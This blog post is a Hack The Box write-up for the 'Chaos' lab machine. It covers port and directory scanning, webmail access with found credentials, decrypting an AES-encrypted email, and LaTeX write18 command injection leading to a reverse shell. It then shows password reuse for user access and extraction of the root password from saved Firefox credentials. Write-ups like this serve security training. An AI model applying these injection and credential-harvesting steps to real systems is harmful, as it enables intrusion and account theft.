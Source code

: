 ```yaml
---
layout: post
title:  "HTB Writeup - Chaos"
date:   2019-05-04 12:59:50 +0000
categories: jekyll update
---
```


# HTB Writeup - Chaos
<br />
As always, I start with nmap: 
```
root@kali:~/chaos# nmap -A -sS -sV -p- 10.10.10.120
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-04 06:46 EDT
Nmap scan report for 10.10.10.120
Host is up (0.054s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE           VERSION
80/tcp    open  http?
110/tcp   open  pop3?
| fingerprint-strings: 
|   GenericLines, NULL: 
|_    +OK Dovecot (Ubuntu) ready.
143/tcp   open  imap              Dovecot imapd (Ubuntu)
993/tcp   open  imaps?
995/tcp   open  pop3s?
10000/tcp open  snet-sensor-mgmt?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port110-TCP:V=7.70%I=7%D=5/4%Time=5CCD6DB3%P=x86_64-pc-linux-gnu%r(NULL
SF:,1D,"\+OK\x20Dovecot\x20\(Ubuntu\)\x20ready\.\r\n")%r(GenericLines,1D," SF:\+OK\x20Dovecot\x20\(Ubuntu\)\x20ready\.\r\n");
Device type: firewall
Running (JUST GUESSING): Fortinet embedded (87%)
OS CPE: cpe:/h:fortinet:fortigate_100d
Aggressive OS guesses: Fortinet FortiGate 100D firewall (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT    ADDRESS
1   ... 30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.20 seconds.
```
<br />

Here we can see that there are a few open ports. Let's start with the 80.
http:/10.10.10.120/
<img src="/assets/chaos1.PNG" alt="drawing" width="600"/>
<img src="/assets/chaos2.PNG" alt="drawing" width="600"/>



The website appeared quite empy, so I ran dirb: 
```
root@kali:~/chaos# dirb http://10.10.10.120/ /usr/share/dirb/wordlists/common.txt

------

DIRB v2.22

## By The Dark Raver

START_TIME: Sat May  4 07:23:03 2019
URL_BASE: http://10.10.10.120/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.120/ ----

- http://10.10.10.120/index.html (CODE:200|SIZE:73)
  ==> DIRECTORY: http://10.10.10.120/javascript/
- http://10.10.10.120/server-status (CODE:403|SIZE:300)
  ==> DIRECTORY: http://10.10.10.120/wp/

---- Entering directory: http://10.10.10.120/javascript/ ----
==> DIRECTORY: http://10.10.10.120/javascript/jquery/

---- Entering directory: http://10.10.10.120/wp/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.10.120/javascript/jquery/ ----

- http://10.10.10.120/javascript/jquery/jquery (CODE:200|SIZE:268026)

------

END_TIME: Sat May  4 07:33:01 2019
DOWNLOADED: 13836 - FOUND: 3
```
<br />
The most interesting directory is /wp. For this reason I used WPScan.

It found a web page protected by password. Since previously I found a comment posted by human, I tried human:human, and it worked!
```
Protected: chaos
creds for webmail

username - ayush
password - jiujitsu
```
# POP and IMAP

I tried to investigate POP3s:
```
root@kali:~# socat  - OPENSSL:chaos:995,verify=0 
+OK Dovecot (Ubuntu) ready.
USER ayush
+OK
PASS jiujitsu
+OK Logged in.
```
<br />

The credentials worked, but the enumeration dind't find anything interesting.

I tried with sslclient, I had numerous fails in trying to talk to this service. After enumerating, I found out there a message in the Drafts:
<img src="/assets/chaos3.PNG" alt="drawing" width="600"/>


```
root@kali:~/chaos# cat mail 
Hii, sahay
Check the enmsg.txt
You are the password XD.
Also attached the script which i used to encrypt.
Thanks,
Ayush

enim_msg.txt

0000000000000234®îªzŠØ³pK8…ZCƒÌõð¹‰^9ä¯kW‡À•Ô&wø9Ü¾©‚ö½EÓä'q’[žèžû9îZ‹Þ3€«íæ.žC–¹ÚÁí¬Ë;¬Ø3Áø•¢¾ó6¼ŸR`n
```

The attachment enim_msg.txt was some encrypted string, and in addition there was also a Python script with what looked like the function used to encrypt the content.
```
root@kali:~/chaos# cat en.py def encrypt(key, filename):
    chunksize = 64*1024
    outputFile = "en" + filename
    filesize = str(os.path.getsize(filename)).zfill(16)
    IV =Random.new().read(16)

encryptor = AES.new(key, AES.MODE_CBC, IV)

with open(filename, 'rb') as infile:
    with open(outputFile, 'wb') as outfile:
        outfile.write(filesize.encode('utf-8'))
        outfile.write(IV)

        while True:
            chunk = infile.read(chunksize)

            if len(chunk) == 0:
                break
            elif len(chunk) % 16 != 0:
                chunk += b' ' * (16 - (len(chunk) % 16))

            outfile.write(encryptor.encrypt(chunk))

def getKey(password):
            hasher = SHA256.new(password.encode('utf-8'))
            return hasher.digest()
```
Looking around on the internet, I found that this is a snippet of code from a AES encryption/decryption tool, but instead I decided to just write the decryption function myself.

```
def decrypt(key):
    chunksize = 64*1024
    input_file = "enim_msg.txt"
    filecontent = open(input_file, 'rb').read()
    print('File content %s bytes' % len(filecontent))
    filesize = filecontent[:16]
    IV = filecontent[16:32]
    ciphertext = filecontent[32:]
    decryptor = AES.new(key, AES.MODE_CBC, IV)
    print(decryptor.decrypt(ciphertext))
    
File content 272 bytes
b'SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK\n\n
```
At this point the message decrypted was clearly base64 encoded, so I decoded it.
```
root@kali:~/chaos# echo "SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK" | base64 -d
Hii Sahay

Please check our new service which create pdf

p.s - As you told me to encrypt important msg, i did :)

http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3

Thanks,
Ayush
```
The link pointed to some PDF generation page. Here we could insert some code and choose a template, and some PDF would have been generated for us (or at least that’s what the page claimed).

Checking the actual response that the server was giving me, I could see that there was some LaTeX engine behind the page, as the response contained the execution log of the pdflatex command.

I googled for potential vulnerability, and found that [it was possible to inject commands by using \immediate\write18{$CMD} in the PDF generation box]([https://0day.work/hacking-with-latex/]).

First I tried some commands to see what I could do, checking the output from the server response. After I could not find anything interesting I decided to just execute as CMD a Python reverse shell, while listening with nc from Kali. So I got a shell as www-data.

After several rabbit holes, getting the user flag was just issueing this command:
```
www-data@chaos:/etc/dovecot$ su ayush
su ayush
Password: jiujitsu
```
The shell I got was very restricted, so I spawned a new shell with python: 
```
su -c "python -c 'import pty; pty.spawn(\"/bin/bash\")' " ayush
```
<br />
# Priviledge Escalation
<br />
The Privesc was not difficult, since in the home directory I found a mozilla folder with backups of user profile. The credentials in that file were encrypted, however I found a tool to decrypt it:
```
ayush@chaos:~/.mozilla$ python firefox_decrypt.py firefox
python firefox_decrypt.py firefox

Master Password for profile firefox/bzo7sjt1.default: jiujitsu

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
```
<br />

With this credentials it was possible to login to the webmin interface and get the root flag.

